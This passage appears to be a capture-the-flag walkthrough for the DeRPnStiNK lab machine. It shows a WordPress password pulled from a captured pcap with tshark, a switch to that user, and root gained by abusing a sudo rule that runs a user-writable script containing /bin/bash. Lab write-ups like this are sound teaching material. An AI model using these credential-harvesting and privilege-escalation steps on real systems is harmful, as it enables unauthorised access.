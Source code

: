 Then I download the pcap file, analyzing it I find the credentials for the user **mrderp**, this user has logged into the wordpress page.

```bash
root@kali:~$ wget derpnstink.local/temporary/derpissues.pcap
root@kali:~$ tshark -r derpissues.pcap -Y 'http.request.method==POST' -T fields -e text 2>/dev/null | grep 'mrderp' | tail -1 
Timestamps,POST /weblog/wp-login.php HTTP/1.1\r\n,\r\n,Form item: "log" = "mrderp",Form item: "pwd" = "derpderpderpderpderpderpderp",Form item: "wp-submit" = "Log In",Form item: "redirect_to" = "http://derpnstink.local/weblog/wp-admin/",Form item: "testcookie" = "1"
```
I switch to the **mrderp** user, this has sudo permissions to run a script in the binaries directory.

```bash
stinky@DeRPnStiNK:~$ su mrderp
su mrderp
Password: derpderpderpderpderpderpderp

mrderp@DeRPnStiNK:/home/stinky$ id
id
uid=1000(mrderp) gid=1000(mrderp) groups=1000(mrderp)
mrderp@DeRPnStiNK:/support$ sudo -l
sudo -l
[sudo] password for mrderp: derpderpderpderpderpderpderp                       

Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

## Privilege Escalation
### Sudo Permissions

To escalate to root we create the binaries directory, then in this we create the derpy file that contains the /bin/bash instruction, we give the script execution permission, we execute it and we get root.
```bash
mrderp@DeRPnStiNK:~$ mkdir binaries
mkdir binaries
mrderp@DeRPnStiNK:~$ echo '/bin/bash' > binaries/derpy
echo '/bin/bash' > binaries/derpy
mrderp@DeRPnStiNK:~$ chmod +x binaries/derpy
chmod +x binaries/derpy
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy
sudo /home/mrderp/binaries/derpy
root@DeRPnStiNK:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

